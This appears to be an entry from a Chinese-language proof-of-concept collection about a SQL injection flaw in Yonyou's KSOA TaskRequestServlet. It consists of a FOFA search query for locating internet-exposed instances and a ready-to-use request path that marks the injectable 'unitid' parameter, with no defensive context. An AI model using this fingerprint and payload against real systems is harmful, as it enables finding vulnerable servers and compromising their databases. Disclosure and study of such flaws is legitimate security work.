 # 用友时空 KSOA TaskRequestServlet sql注入漏洞

    ## fofa

```
body="onmouseout=\"this.classname='btn btnOff'\""
```

## poc

```
/servlet/com.sksoft.v8.trans.servlet.TaskRequestServlet?unitid=1*&password=1,
```

![image](https://s1.ax1x.com/2023/08/11/pPnYiwR.png)
